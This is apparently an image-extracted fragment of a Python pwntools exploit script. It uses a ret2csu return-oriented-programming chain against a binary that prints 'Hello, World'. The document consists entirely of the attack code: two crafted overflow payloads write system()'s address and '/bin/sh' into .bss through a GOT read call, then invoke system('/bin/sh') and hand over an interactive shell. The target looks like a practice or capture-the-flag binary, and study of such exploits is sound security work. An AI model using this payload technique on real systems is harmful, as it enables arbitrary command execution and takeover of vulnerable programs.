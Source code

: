 ```
# got\_read(rdi=0,rsi=bss\_addr, rdx=8)             write system
# got\_read(rdi=0,rsi=bss\_addr+8, rdx=8)           write /bin/sh
# rdi=r15d=param1  rsi=r14=param2 rdx=r13=param3  r12=call\_address

payload2 = "A"\*136 + p64(pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret)    # ret address  : p64(pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret)
payload2 += p64(0)+ p64(1)                                   # rbx=0 rbp=1  : p64(0)+ p64(1)
payload2 += p64(got\_read)                                    # call\_address : got\_read
payload2 += p64(16)                                          # param3       : 16
payload2 += p64(bss\_addr)                                    # param2       : bss\_addr
payload2 += p64(0)                                           # param1       : 0

payload2 += p64(rdx\_rsi\_rdi\_callr12\_ret)                     # call r12
payload2 += p64(0)\*7                                         # add    $0x8,%rsp   6 pop
payload2 += p64(main\_static)

p.recvuntil('Hello, World\\n')

print("\[+\] send payload2 call got\_read(rdi=0,rsi=bss\_addr, rdx=16)")

# raw\_input()
p.send(payload2)
# raw\_input()

p.send(p64(system\_addr) + "/bin/sh\\0")  #send /bin/sh\\0
"""
00000000:00601040|00007f111b941390|........|
00000000:00601048|0068732f6e69622f|/bin/sh.|
"""
sleep(1)
p.recvuntil('Hello, World\\n')

# call bss\_addr(rdi=bss\_addr+8) system\_addr(rdi=binsh\_addr)
# rdi=r15d=param1  rsi=r14=param2 rdx=r13=param3  r12=call\_address

payload3 ="A"\*136 + p64(pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret)     # ret address  : p64(pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret)
payload3 += p64(0)+ p64(1)                                   # rbx=0 rbp=1  : p64(0)+ p64(1)
payload3 += p64(bss\_addr)                                    # call\_address : bss\_addr
payload3 += p64(0)                                           # param3       : 0
payload3 += p64(0)                                           # param2       : 0
payload3 += p64(bss\_addr+8)                                  # param1       : bss\_addr+8

payload3 += p64(rdx\_rsi\_rdi\_callr12\_ret)        # call r12
payload3 += p64(0)\*7                            # add $0x8,%rsp   6 pop
payload3 += p64(main\_static)

print("\[+\] send payload3 call system\_addr(rdi=binsh\_addr)")
p.send(payload3)
p.interactive()
```

